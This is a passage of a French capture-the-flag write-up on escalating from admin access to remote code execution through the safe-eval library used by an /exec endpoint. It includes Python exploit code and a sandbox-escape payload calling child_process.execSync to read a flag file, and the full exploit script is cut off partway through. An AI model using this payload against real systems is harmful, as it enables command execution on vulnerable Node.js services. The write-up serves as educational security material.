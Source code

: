 
## From admin to RCE.

Maintenant que nous somme admin, nous devons trouver un moyen de RCE à travers la fonction ``safeEval`` utilisé par le endpoint /exec

On peut déjà écrire un code pour exécuter une simple opération:
```python
class exploit:
  ...
  def exec(self,token,cmd):
    r = self.sess.post('%s/exec'%self.url,json={'code':cmd},headers={"Authorization":"Bearer %s"%(token)})
    return r.json()
  ...


res = exp.exec(
	token = token,
	cmd = '5+5'
)
print(res)
```

*Résultat*:  
```bash
{'result': 10}
```

On tombe sur [cette issue github](https://github.com/hacksparrow/safe-eval/issues/27) qui une fois légèrement modifier nous donne une RCE directe sur le système !

```python
class exploit:
  ...
  def rce(self,token,cmd):
    rce = "import('test').catch((e)=>{})['constructor']['constructor']('return process')().mainModule.require('child_process').execSync('%s')"
    return bytes(self.exec(token,rce%cmd)['result']['data']).decode().strip()

...
res = exp.rce(
	token = token,
	cmd = 'cat /home/flag.txt'
)
```

# Exploit complet:
```python
import requests
import random

class exploit:
	def __init__(self,url,session):
		self.url = url
		self.sess = session

	def login(self,user,pwd):
		data = {'pseudo':user,'password':pwd}
		r = self.sess.post('%s/auth/login'%self.url,json=data).json()
		return r['access_token']

	def register(self,user,pwd,id_=''):
		data = {'pseudo':user,'password':pwd}
		if id_:
```

[//]: <> (Wrote By Vozec 06/05/2023)